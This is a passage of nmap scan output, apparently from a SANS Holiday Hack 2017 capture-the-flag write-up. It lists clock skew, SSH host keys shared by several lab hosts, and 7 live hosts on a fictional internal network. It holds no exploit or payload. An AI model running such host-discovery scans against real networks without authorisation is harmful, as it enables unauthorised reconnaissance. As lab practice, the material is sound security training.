Initiating NSE at 02:27
Completed NSE at 02:27, 0.00s elapsed
Post-scan script results:
| clock-skew: 
|   0s: 
|     10.142.0.13 (eaas.northpolechristmastown.com)
|_    10.142.0.8 (hhc17-emi.c.holidayhack2017.internal)
| ssh-hostkey: Possible duplicate hosts
| Key 2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA) used by:
|   10.142.0.2
|   10.142.0.3
|   10.142.0.11
| Key 256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA) used by:
|   10.142.0.2
|   10.142.0.3
|_  10.142.0.11
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (7 hosts up) scanned in 86.82 seconds
#+END_SRC
